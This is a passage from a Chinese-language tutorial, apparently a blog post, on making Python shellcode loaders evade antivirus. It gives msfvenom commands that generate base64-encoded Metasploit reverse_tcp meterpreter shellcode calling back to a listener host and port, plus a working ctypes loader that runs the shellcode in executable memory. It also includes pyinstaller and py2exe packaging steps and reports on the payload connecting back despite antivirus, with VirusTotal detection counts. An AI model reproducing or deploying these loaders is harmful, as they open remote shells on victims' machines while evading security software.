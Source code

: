 ```
```

在 msf 中设置 payload`windows/meterpreter/reverse_tcp`，监听相应 3333 端口。

在 windows 下执行`python.exe .\setup.py py2exe`，(文件大小 11M)

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbiaw0CXzmwIDic2q39J3XPUBzGysBOViaCVn1aQZm44eJYN2WoybI9w2MQ/640?wx_fmt=png)

msf 中可正常上线

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIb6DssLkDHSKh5SJsTnGrQ4L1PLaNvQubtL25cgabIgicRV9ZYls5S8Mg/640?wx_fmt=png)

打开杀软进行测试，可正常上线

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbKQYiaSvkCxTy89JlsVFicjO80nm7xJ50tSIMVPADbxRdySPbk9bwoTEg/640?wx_fmt=png)

virustotal.com 中 10/69 个报毒

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbUw6DAaBkT7jDCZKAfaYevQr3bpJ0BuGpDJnNa1mTZz1HccibnbXck7A/640?wx_fmt=png)

2.3 方法 3：base64 编码 (VT 免杀率 16/70)
---------------------------------

和 2.1 方法一样，先生成 shellcode。

先用 msfvenom 生成 shellcode，记得要用 base64 编码:

```
msfvenom -p windows/meterpreter/reverse_tcp --encrypt base64  LHOST=10.211.55.2 LPORT=3333   -f c
```

python 代码如下：

```
import ctypes
import base64

encode_shellcode = ""

shellcode = base64.b64decode(encode_shellcode)

rwxpage = ctypes.windll.kernel32.VirtualAlloc(0, len(shellcode), 0x1000, 0x40)
ctypes.windll.kernel32.RtlMoveMemory(rwxpage, ctypes.create_string_buffer(shellcode), len(shellcode))
handle = ctypes.windll.kernel32.CreateThread(0, 0, rwxpage, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

使用 pyinstaller 编译打包 exe，生成文件大小 3.4M

```
python pyinstaller.py -F -w pyshellcode.py
```

在测试机器运行时，360 杀毒静态查杀报警，但执行和上线都没问题。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbj5MEQSlUKarpSdnrkoa20IgdMfhUsIVVQvVqfDTPicgK5XkQfuOotsw/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbsFPHv6w6uxgtP7HTCNEaRWk6oDibASkQXnibvUHo6FBxtnsJJNh82EJg/640?wx_fmt=png)
